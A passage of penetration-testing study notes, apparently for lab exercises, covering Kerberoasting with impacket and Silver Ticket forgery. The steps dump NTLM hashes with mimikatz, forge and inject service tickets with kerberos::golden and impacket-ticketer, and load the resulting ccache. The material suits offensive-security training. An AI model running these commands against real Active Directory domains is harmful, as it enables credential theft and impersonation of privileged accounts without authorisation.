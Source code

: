 - `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete`

## Silver Tickets
Forges a service ticket to access the target resource

### from Windows
- Prerequisite:
	- ~~NTLM hash OR password of target service account~~
	- ~~domain SID~~
	- ~~target SPN~~
	- access to domain (with shell)
	- Administrator access to PowerShell (if no NTLM hash or password of target service account)
- Run mimikatz to extract NTLM hash of target service account:
	`privilege::debug`
	`sekurlsa::logonpasswords`
	(E.g. NTLM hash: `4d28cf5252d39971419580a51484ca09`)
	
	Obtain domain SID:
	`whoami /user` (Domain SID is the bold italic part ***S-1-5-21-1987370270-658905905-1781884369***-1105)

	If have password of service account instead of NTLM hash, generate a hash from the password: https://codebeautify.org/ntlm-hash-generator

	Obtain SPN of the service account:
	`Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames`

	Run mimikatz to inject forged ticket into system memory:
	`kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin` (could use any username, no need password)
	
	Confirm that the ticket was stored in memory:
	`klist` (should see a cached ticket)
	
	Access the target system:
	`iwr -UseDefaultCredentials http://web04`

### from Kali
- Prerequisites:
	- NTLM hash or password of a service account

Run on Kali:
`impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator`

From the output, find out which file in current directory the ticket is saved in. (look for output `Saving ticket to Administrator.ccache`, where `Administrator.ccache` is the filename)

Export the variable:
`export KRB5CCNAME=$PWD/Administrator.ccache`

Ensure ticket is added:
`klist`
